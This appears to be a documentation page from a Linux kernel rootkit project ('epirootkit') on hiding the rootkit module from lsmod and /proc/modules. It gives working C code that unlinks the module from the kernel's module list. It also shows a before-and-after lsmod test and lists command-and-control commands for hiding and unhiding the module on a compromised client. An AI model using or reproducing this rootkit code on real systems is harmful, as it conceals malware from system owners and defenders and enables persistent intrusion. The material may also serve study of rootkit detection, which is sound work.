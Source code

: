 ```yaml
---
title: "Module Hiding"
description: "Hide the rootkit module from lsmod and /proc/modules"
icon: "visibility_off"
date: "2025-05-30T00:00:00+01:00"
lastmod: "2025-05-30T00:00:00+01:00"
draft: false
toc: true
weight: 514
---
```


# Module Hiding

Hide the rootkit module from `lsmod` and `/proc/modules` by removing it from the kernel's module list.

## Implementation

```c
int hide_module(void)
{
    if (module_hiding_state.hidden)
        return 0;

    module_hiding_state.prev_module_entry = THIS_MODULE->list.prev;
    list_del(&THIS_MODULE->list);
    module_hiding_state.hidden = true;
    
    return 0;
}
```

Removes the module from kernel's linked list using `list_del()` while saving the previous entry for restoration.

{{< alert context="warning" text="The [Line Hiding](./line-hiding.md) also hides the module from `/proc/modules` so to test module visibility with lsmod, you must disable line hiding." />}}

## Testing

```bash
# Before hiding
lsmod | grep epirootkit
# Output: epirootkit    16384  0

# After hiding  
lsmod | grep epirootkit
# Output: (nothing)
```

## Control

### WebUI
Toggle via **[Configuration Panel](../../04-web-ui/features/panels/configuration-panel.md)**

### C2 Commands
```bash
hide-module Client-1      # Hide module
unhide-module Client-1    # Make visible
status Client-1           # Check state
```

Module remains fully functional while hidden. 